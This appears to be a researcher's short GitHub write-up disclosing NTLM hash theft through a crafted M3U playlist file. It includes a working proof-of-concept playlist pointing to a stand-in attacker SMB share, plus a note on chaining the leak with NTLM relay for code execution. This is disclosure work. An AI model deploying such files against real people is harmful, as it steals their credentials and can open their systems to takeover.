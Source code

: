# NTLM-THEFT VIA M3U FILE 

Rather than exploiting the vulnerability in Microsoft Word files or Outlook’s handling of RTF files, an attackers will take the 

advantage of "M3U file extension Audio Playlist" a  file that stands for MP3 URL, the m3u file , isn't an actual audio file in and 

of itself. 

An M3U file just points to audio (and sometimes video) files so that a media player can queue them for playback. These text-based 

files can contain URLs and/or absolute or relative pathnames to the media files and/or folders.

The attacker can then use this to inject malicious content into a “M3U” file  ex : SMB Server , so when that file  is opened, the 

target automatically leaks credentials in the form of NTLM hashes.

# NOTE: AN RCE can be achieved by chaining NTLM theft with smb signing disabled using ntlm relay .


Tested on windows 7  “all player"

PoC :

#EXTM3U
#EXTINF:-1,leak_it_please
\\attacker_smb_server\xFolder

Save it as m3u extention.

Author : "Soufian El Hachmi"  a security researcher From Morocco 
